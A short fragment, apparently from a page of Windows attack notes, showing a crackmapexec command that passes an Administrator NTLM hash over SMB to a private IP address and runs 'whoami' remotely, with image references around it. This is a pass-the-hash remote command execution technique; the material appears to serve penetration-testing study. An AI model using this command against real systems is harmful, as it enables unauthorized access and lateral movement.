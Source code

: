 ```bash
crackmapexec smb 10.2.23.202 -u Administrator -H "e3c61a68f1b89ee6c8ba9507378dc88d" -x "whoami"
```

![](windows-attacksassets/image-20230318112609267.png)

------

